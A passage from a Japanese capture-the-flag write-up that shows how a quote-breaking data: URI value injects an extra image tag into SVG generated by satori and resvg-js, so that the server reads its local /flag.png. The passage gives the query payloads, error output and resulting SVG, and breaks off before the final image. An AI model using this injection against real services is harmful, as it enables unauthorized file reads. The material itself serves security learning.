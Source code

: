 テスト用に配置した`/flag.png`が読み取れた。  
あとはSVGをクエリから生成すればよいので、以下を投げる。  
```
?title[type]=img&title[props][src]=/flag.png&title[props][height]=500&title[props][width]=500
```
すると`Error: Image source must be an absolute URL: /flag.png`と怒られる。  
[ここ](https://github.com/vercel/satori/blob/9bc47fd41937be1bc96db2c91420323d034bebef/src/handler/image.ts#L168)で`http`または`data:`で始まるかチェックされているようだ。  
`backgroundImage`でも外部のURLは指定可能であったが、`/flag.png`は読み込めない(fileスキームも不可)。  
ここで試しに、以下のようなクエリを投げる。  
```
?title[type]=img&title[props][src]=data:satoki">&title[props][height]=500&title[props][width]=500
```
するとエラーが変化した。  
```
Image data URI resolved without size:data:satoki">
Image data URI resolved without size:data:satoki">
Error: SVG data parsing failed cause expected 'image' tag, not 'svg' at 1:1007
    at new Resvg (/ogogpgogo/node_modules/@resvg/resvg-js/index.js:19:5)
    at renderOGPImage (/ogogpgogo/app.js:51:22)
    at async /ogogpgogo/app.js:65:18 {
  code: 'GenericFailure'
}
```
app.jsにデバッグ用の`console.log(svg);`を差し込み、出来上がったSVGを見ると以下の通りであった。  
```svg
<svg width="1200" height="630" viewBox="0 0 1200 630" xmlns="http://www.w3.org/2000/svg"><defs><pattern id="satori_pattern_id_0" x="0" y="0" width="1" height="1" patternUnits="objectBoundingBox"><linearGradient id="satori_biid_0" x1="0" y1="0" x2="0" y2="1"><stop offset="0%" stop-color="lightblue"/><stop offset="100%" stop-color="pink"/></linearGradient><rect x="0" y="0" width="1200" height="630" fill="url(#satori_biid_0)"/></pattern></defs><mask id="satori_om-id"><rect x="0" y="0" width="1200" height="630" fill="#fff"/></mask><rect x="0" y="0" width="1200" height="630" fill="white"/><rect x="0" y="0" width="1200" height="630" fill="url(#satori_pattern_id_0)"/><clipPath id="satori_cp-id-0"><rect x="350" y="65" width="500" height="500"/></clipPath><mask id="satori_om-id-0"><rect x="350" y="65" width="500" height="500" fill="#fff"/></mask><image x="350" y="65" width="500" height="500" href="data:satoki">" preserveAspectRatio="none" clip-path="url(#satori_cp-id-0)" mask="url(#satori_om-id-0)"/></svg>
```
SVGのタグが`">`により壊れているようだ。  
つまり、うまく差し込めば任意のタグを生成できることに気づく。  
以下のように新たなimageタグを差し込み、`href`を`/flag.png`とすればテスト時のように`/flag.png`が読み取れるはずだ。  
```
?title[type]=img&title[props][src]=data:satoki"/><image x="500" y="165" width="300" height="300" href="/flag.png&title[props][height]=500&title[props][width]=500
```
SVGは以下になる。  
```svg
<svg width="1200" height="630" viewBox="0 0 1200 630" xmlns="http://www.w3.org/2000/svg"><defs><pattern id="satori_pattern_id_0" x="0" y="0" width="1" height="1" patternUnits="objectBoundingBox"><linearGradient id="satori_biid_0" x1="0" y1="0" x2="0" y2="1"><stop offset="0%" stop-color="lightblue"/><stop offset="100%" stop-color="pink"/></linearGradient><rect x="0" y="0" width="1200" height="630" fill="url(#satori_biid_0)"/></pattern></defs><mask id="satori_om-id"><rect x="0" y="0" width="1200" height="630" fill="#fff"/></mask><rect x="0" y="0" width="1200" height="630" fill="white"/><rect x="0" y="0" width="1200" height="630" fill="url(#satori_pattern_id_0)"/><clipPath id="satori_cp-id-0"><rect x="350" y="65" width="500" height="500"/></clipPath><mask id="satori_om-id-0"><rect x="350" y="65" width="500" height="500" fill="#fff"/></mask><image x="350" y="65" width="500" height="500" href="data:satoki"/><image x="500" y="165" width="300" height="300" href="/flag.png" preserveAspectRatio="none" clip-path="url(#satori_cp-id-0)" mask="url(#satori_om-id-0)"/></svg>
```
imageタグがうまく生成できており、エラーも発生していない(`Image data URI resolved without size:`とは言われる)。  
リモートに投げてやると以下のOGP画像が生成された。  